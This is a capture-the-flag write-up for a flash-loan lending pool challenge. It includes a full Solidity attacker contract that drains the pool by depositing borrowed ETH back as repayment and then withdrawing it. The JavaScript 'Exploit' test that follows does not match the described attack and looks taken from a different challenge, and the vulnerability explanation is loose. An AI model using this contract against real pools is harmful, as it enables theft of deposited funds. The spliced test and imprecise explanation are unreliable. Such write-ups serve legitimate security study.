 # Summary

## Original Contract and Challenge

The SideEntranceLenderPool contract allows users to deposit and withdraw ETH. It also offers free flash loans using the deposited ETH to promote the system. The challenge is to drain all 1000 ETH from the pool, starting with an initial balance of 1 ETH.

## Vulnerability

The vulnerability lies in the `flashLoan()` function of the SideEntranceLenderPool contract. It allows any contract to call its `execute()` function with the loaned amount:

```solidity
IFlashLoanEtherReceiver(msg.sender).execute{value: amount}();
```

This is risky because it exposes the contract to potentially malicious implementations of the execute() function.

## Exploit

The exploit involves creating an attacker contract (AttackSideEntrance) with the following functions:

`attack(uint256 amount)`: Calls the `flashLoan()` function in the vulnerable contract to borrow the specified amount, then calls the `withdraw()` function.
`execute()`: Called by the vulnerable contract, this function deposits the borrowed ETH back into the pool, updating the internal balances mapping.
receive(): Transfers the stolen ETH to the attacker's address.

```solidity
contract AttackSideEntrance {
    SideEntranceLenderPool pool;
    address payable owner;

    constructor(address _chal) {
        pool = SideEntranceLenderPool(_chal);
        owner = payable(msg.sender);
    }

    function attack(uint256 amount) external {
        pool.flashLoan(amount);
        pool.withdraw();
    }

    function execute() external payable {
        pool.deposit{value: address(this).balance}();
    }

    receive() external payable {
        owner.transfer(address(this).balance);
    }
}
```

## Deploy the attacker contract.

Call the `attack()` function, borrowing all ETH from the pool and depositing it back.
The vulnerable contract's `flashLoan()` function completes successfully.
The attacker contract's attack() function calls withdraw() to drain all ETH from the pool.

```javascript
it("Exploit", async function () {
  const attackTokenContract = token.connect(player);
  await attackTokenContract.transfer(
    vault.address,
    INITIAL_PLAYER_TOKEN_BALANCE
  );
});
```

## Takeaways

To avoid such vulnerabilities, it is crucial to follow best practices when making external calls and not to trust other contracts blindly. Implementing the transfer execution within the `flashLoan()` function instead of delegating it to an unknown external contract would have made the SideEntranceLenderPool contract more secure.
